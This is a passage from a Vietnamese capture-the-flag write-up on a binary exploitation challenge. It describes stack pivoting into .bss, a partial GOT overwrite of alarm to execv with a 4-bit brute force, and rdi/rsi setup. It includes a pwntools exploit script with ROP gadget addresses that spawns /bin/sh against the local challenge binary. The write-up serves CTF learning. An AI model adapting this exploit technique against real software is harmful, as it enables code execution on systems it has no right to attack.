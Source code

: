 - và nó sẽ khác 2 byte và 12 bit cuối sẽ không đổi nên cần brute 4 bit để thực thi 2 thằng ở trên

- về exploit thì quá trình pivot khá là quằng :)) , tóm tắt 1 chút về payload thì đầu tiên target sẽ là `got@alarm` , và sau khi overwrite got thì ta sẽ return về 1 địa chỉ nào đó , vậy ta sẽ thiết lập địa chỉ return đó trước , ta sẽ setup rbp thành 1 bss lớn hơn 1 tí và sẽ read dữ liệu tiếp tục vào đó , gỉa sử lúc này ta vừa overwrite thành công `execv` rồi , tiếp theo điều cần làm sẽ là setup `rdi,rsi` , về setup rsi thì rất đơn giản , ta sẽ setup rbp về 1 địa chỉ nào đó và gửi 1 byte NULL và trước hết ta cũng phải tính đến trường hợp này , ta sẽ setup địa chỉ return_address sau khi setup rsi thành công -> `pop_rdi` và thực thi `execv`

exp:

```python
#!/usr/bin/env python3

from pwn import *
import time

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
brute = 0x41c0
leave_ret = 0x0000000000401260
read_gadget = 0x0000000000401249
pop_rdi = 0x0000000000401247
bss = 0x404570
while True:
    p = process()
    payload = flat(
        'a'*32,
        exe.got.alarm+0x40,  # saved_rbp1  
        read_gadget          # saved_rip1  return vao address nay sau khi overwrite got
        )
    time.sleep(0.1)
    #input("payload1")
    p.send(payload)

    pl = flat(
        exe.got.alarm+0x100,   # saved_rbp3  # setup rdi va rsi
        read_gadget,            # saved_rbp3
        b'a'*0x10,
        exe.got.alarm+0x20,   # saved_rbp2   
        read_gadget,          # saved_rip2   # overwrite got
        )
    #input("payload2")
    time.sleep(0.1)
    p.send(pl)
    #input("payload3")
    time.sleep(0.1)
    p.send(p16(brute))

    pl  = flat(
        pop_rdi,
        exe.got.alarm+0xf8,
        exe.plt.alarm,
        b'/bin/sh\x00',
        exe.got.alarm+0x100-0x28,    #saved_rbp4     setup rsi va return vao pop rdi
        read_gadget,                 #saved_rip4
        )

    #input("payload4")
    time.sleep(0.1)
    p.send(pl)
```